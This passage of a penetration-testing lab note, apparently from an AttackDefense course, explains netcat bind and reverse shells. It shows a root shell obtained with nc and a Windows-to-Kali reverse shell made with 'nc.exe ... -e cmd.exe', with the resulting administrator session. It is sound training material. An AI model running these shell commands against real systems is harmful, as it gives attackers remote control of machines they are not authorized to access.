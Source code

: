 

**connect to the listener to get the command shell**

```bash
root@attackdefense:~# nc -vn 10.10.80.2 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.80.2:1234.

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root
```



---

#### Reverse Shells

+ A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker’s system, consequently allowing for execution of commands on the target system.

<img src="./assets/2.png" style="zoom:100%;" />

#### Reverse shell between windows and kali

**setup a listener** 

```cmd
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.4.18.81:1234.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
win-omcnbkr66mn\administrator
```



**connect to the listener to get the command shell**

```bash
C:\Users\Administrator\Desktop>nc.exe -nv 10.4.18.81 1234 -e cmd.exe
listening on [any] 1234 ...
connect to [10.4.18.81] from (UNKNOWN) [10.10.80.2] 46142
```
